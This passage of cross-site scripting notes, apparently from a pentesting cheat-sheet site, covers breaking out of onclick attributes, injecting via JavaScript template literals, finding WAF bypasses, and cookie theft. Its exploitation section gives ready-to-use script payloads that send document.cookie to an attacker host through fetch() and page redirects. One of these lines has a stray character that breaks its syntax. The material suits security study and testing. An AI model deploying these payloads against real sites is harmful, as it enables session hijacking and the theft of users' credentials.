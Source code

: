    {{< hint style=notes >}}
   **Note**: you cannot use `&quot;` -> `"` to close onclick attribute. Remember: The browser HTML-decode the value of the onlick attribute but not the entire structure
   {{< /hint >}}

* XSS in JavaScript template literals
  * JavaScript template literals are string literals that allow embedded JavaScript expressions (Template literals are encapsulated in backticks)

    ```html
    <script>
    ...
    var input = `controllable data here`;
    ...
    </script>
    ${alert(document.domain)}
    ```

---

## Bypass WAF

If you receive an error like "tag is not allowed" or "event is not allowed", use XSS cheat sheet ([https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)) to discover a tag and event that work.

---

## Exploitation

### Steal cookies
```html
<script>fetch('//attacker.com?'+document.cookie)</script>
<!-- or -->
<script>location='//attacker.com?'?+document.cookie</script>
```

```html
<script>
fetch('https://attacker.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

Limitation:

* The victim might not be logged in.
* Many applications hide their cookies from JavaScript using the `HttpOnly` flag.
* Sessions might be locked to additional factors like the user's IP address.
* The session might time out before you're able to hijack it.
